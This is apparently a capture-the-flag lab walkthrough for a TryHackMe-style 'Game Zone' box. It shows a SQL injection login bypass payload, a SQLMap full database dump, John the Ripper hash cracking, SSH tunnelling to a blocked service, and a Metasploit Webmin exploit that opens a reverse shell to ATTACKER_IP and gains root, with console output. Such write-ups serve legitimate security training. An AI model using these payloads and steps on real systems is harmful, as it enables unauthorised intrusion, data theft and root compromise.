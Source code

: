 # Game Zone
* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

## Obtain access via SQLi
* Taget host uses `SELECT * FROM users WHERE username = :username AND password := password` SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to `SELECT * FROM users WHERE username =' or 1=1 -- - AND password := password`.
  * "1=1" = true.
  * "-- -" comments out remainder of query.
## Use SQLMap
* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from [here](https://github.com/sqlmapproject/sqlmap).
### Use SQLMap to dump entire database
1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.
```
POST /portal.php HTTP/1.1
Host: 10.10.72.152
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.72.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.72.152/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2
Connection: close

searchitem=test
```
* Pass request into SQLMap to use authenticated user session.
```
sqlmap -r request.txt --dbms=mysql --dump
```
  * `-r` uses intercepted request.
  * `--dbms` tells SQLMap the type of DBMS.
  * `--dump` attempts to output entire database.

## Crack Password with JohnTheRipper (JTR)
* JTR is fast OSS password cracker.
* Preinstalled on Kali.
* Takes wordlist, hashes it with specified algorithm, then compares it to hashed password.
* Hashes cannot be reversed.
* Can only be broken by hash comparison.
#### Use JTR to crach hash gained above
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA246
```
  * `hash.txt` contains list of hashes to crack.
  * `--wordlist` is list to use to find dehashed value.
  * `--format` is hashing algorithm to use.
## Expose Services with Reverse SSH Tunnels
* Reverse SSH port forwarding specifies that given port on remote host should be forwarded to local host and port.
![cYZsC8p](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/46543e83-ed0e-421c-a78c-4e88f5a18315)
* `-L` is local tunnel.
  * Attacker <- target host.
  * Can forward traffic to another host and view it if site is blocked.
    * E.g. imgur blocked at work
```
ssh -L 9000:imgur.com:80 user@example.com
```
    * Browse to "localhost:9000" to load imgur traffic using other server.
* `-R` is remote tunnel.
  * Attacker -> target host.
  * Attacker forwards traffic to target host for others to view.
#### Use ss tool to investigate sockets running on host
```
ss -tulpn
```

| Argument | Description
| --- | ---
| `-t` | Display TCP sockets.
| `-u` | Display UDP sockets.
| `-l` | Display only listening sockets.
| `-p` | Show process using the socket.
| `-n` | Do not resolve service names.

* Service running on port 10000 blocked on attack host via firewall rule from outside.
* Use SSH tunnel on attack host to expose port via target host.
```
ssl -L 10000:localhost:10000 agent47@TARGET_IP
```
* Browse to http://localhost:10000 on attack host to access newly-exposed webserver.
## Privilege Escalation with Metasploit
* Use CMS dashboard version (webmin 1.5.80) to find Metasploit payload to execute against target host.
* [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/21851) found on Exploit-db.
```
msfconsole
search webmin type:exploit
use exploit/unix/webapp/webmin_show_cgi_exec
set password videogamer124
set rhosts ATTACKER_IP
set username agent47
set ssl no
show payloads
set payload payload/cmd/unix/reverse
set lhost ATTACKER_IP
exploit
```
  * Set RHOSTS to Attack Host due to SSH tunnel created earlier.
  * Set SSL to be false as the SSL tunnel is not running over HTTPS.
```
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo cClA4EYV0eVm9IvA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "cClA4EYV0eVm9IvA\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (10.10.174.232:4444 -> 10.10.72.152:53206) at 2024-02-29 17:40:57 +0000
[*] Session 2 created in the background.
```
```
sessions 1
[*] Starting interaction with 1...

whoami
root
```
* Stabilise shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
* Find root flag.
```
cd /
find / -name "root.*" -user root 2>/dev/null
```
